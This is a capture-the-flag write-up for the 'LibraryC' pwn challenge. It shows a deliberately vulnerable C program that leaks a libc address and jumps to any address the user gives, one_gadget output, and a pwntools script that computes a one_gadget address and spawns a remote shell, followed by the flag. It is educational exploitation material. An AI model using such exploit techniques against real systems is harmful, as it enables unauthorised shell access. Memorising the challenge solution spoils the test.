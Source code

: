 # LibraryC
![](https://img.shields.io/badge/category-pwn-blue)

> I have this amazing library full of functions and where they’re stored. Do you need help finding something in this vast library? Perhaps a flag?
We have given you everything you need, can you figure out where to jump to to get the flag?



<details>
<summary>Hint:</summary>
https://libc.blukat.me

The input asked where you want to jump to allows you to jump anywhere provided a hex number. Providing 0x0123456789abc will jump to address 0x0123456789abc
</details>

This was meant to be an introduction to one_gadgets and ret2libc. Libc are pieces of code which contains a ton of helper functions that would exist within c. These include `printf`, `scanf`, `gets`, `puts` and more.

Let's take a look at the code,

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	printf("Hello user, do you have what it takes to get a shell? Let's find out!\n");
	long long val;
	printf("Please choose a libc function..\n");
	printf("1: system()\n");
	printf("2: popen()\n");
	printf("3: fread()\n");
	printf("4: fwrite()\n");
	printf(">>");
	scanf("%lld",&val);
	if(val==1){
		printf("%p\n",system);
	}else if(val==2){
		printf("%p\n",popen);
	}else if(val==3){
		printf("%p\n",fread);
	}else if(val==4){
		printf("%p\n",fwrite);
	}else{
		printf("I don't know what that is\n");
	}
	printf("Now that you have what you need, give us an address to jump to\n");
	scanf("%llp",&val);
	printf("Ok, now calling to %llp\n",val);
	((void(*)(void))val)();
	return 0;
}
```

Libc contains several helper function which the program calls, the libc is loaded off a random address, meaning we're unable to know where the functions are located unless we have a libc leak. Libcs are also loaded with the lowest bytes being aligned to `0000`, meaning the lowest bytes would always be the same.

What we can do is leak several libc addresses, and use the provided link in the hint to first figure out the libc the remote server uses.

As the remote server is now offline, here's what I got locally.

https://libc.blukat.me/?q=system%3A0x7fd8a8ef8410%2Cfread%3A0x7f42d2c2dfe0%2Cpopen%3Af500

We're able to take any one of these libcs (I'm assuming because they're the same)

We download one of the libcs and run `one_gadget` on it. [one_gadget](https://github.com/david942j/one_gadget) is a public project, it finds an address within libc which if jump to, will create a shell.

```
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

We can also get the offset to a libc function (say `system()`) using the libc database.

`system: 0x055410`

Meaning the offset from the `system` address to the `one_gadget` address will be

`0xe6c7e-0x055410`

We're now able to create a script

```python
from pwn import *

con = remote('159.203.32.136',30002)
con.sendline('1')

LIBC_SYSTEM = con.recv().split('0x')[-1]
LIBC_SYSTEM = int(LIBC_SYSTEM, 16)
ONE_GADGET = LIBC_SYSTEM+0xe6c7e-0x055410
con.sendline(hex(ONE_GADGET))
con.interactive()
```

`CTF{find_libc_jump_to_gadget_win}`
